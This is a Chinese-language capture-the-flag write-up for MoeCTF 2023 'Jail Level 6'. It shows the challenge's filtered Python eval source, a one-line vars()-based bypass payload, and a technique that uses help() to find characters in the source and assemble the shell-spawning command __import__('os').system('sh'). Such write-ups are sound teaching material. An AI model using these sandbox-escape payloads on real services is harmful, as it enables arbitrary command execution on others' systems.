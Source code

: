 
## Jail Level 6

首先推荐看隔壁师傅的WP
```
vars(vars()[[*vars()][-9]])[[*vars(vars()[[*vars()][-9]])][12]]()
```

https://github.com/XDSEC/MoeCTF_2023/blob/main/WriteUps/constellation/Jail/Jail%20Level%201-6%20%26%20Leak%20Level%201-2%20%26%20PyRunner!.md#jail-level-3

这可以认为是方法1

题目源码
```python
    print("Welcome to the MoeCTF2023 Jail challenge.It's time to work on this calc challenge.")
    print("Enter your expression and I will evaluate it for you.")
    def func_filter(s):
      not_allowed = set('"'`bic+')
      return any(c in not_allowed for c in s)
    user_input_data = input("> ")
    if func_filter(user_input_data):
      print("Oh hacker! Bye~")
      exit(0)
    if not user_input_data.isascii():
      print("Sorry we only ascii for this chall!")
      exit(0)
    print('Answer result: {}'.format(eval(user_input_data)))
```

不能用引号 b i c 和加号，必须是ascii，但是长度 -! 没有限制 !-

 - 这直接把chr()+xxx的方案彻底堵死
 - breakpoint()彻底堵死
 - locals()堵死
 - help() 没 堵死！

通过help查看__main__，我们可以发现CHALLENGE_SOURCE_CODE变量装有可以输出的源码
```python
DATA
    CHALLENGE_DESCRIPT = '\n\n||||||||||||||||||||||||||||||||||||||||||||...
    CHALLENGE_SOURCE_CODE = '\n    print("Welcome to the MoeCTF2023 Jail c...
    WELCOME = '\n  __  __  ___        _____        _        _   ...       ...
    __annotations__ = {}
    choice = 'e'
    user_input_data = 'help()'
```

那么我可以想到，是不是可以通过源码里面已经有的字符来拼接我的payload？？

苦思冥想后，通过输出找到了各个字符在此变量中的数组索引：
```python
__import__("os").system("sh")

_ 176
i 40
m 17
p 5
o 16
r 6
t 20
s 56
( 10
) 162
" 11
. 52
y 157
e 13
```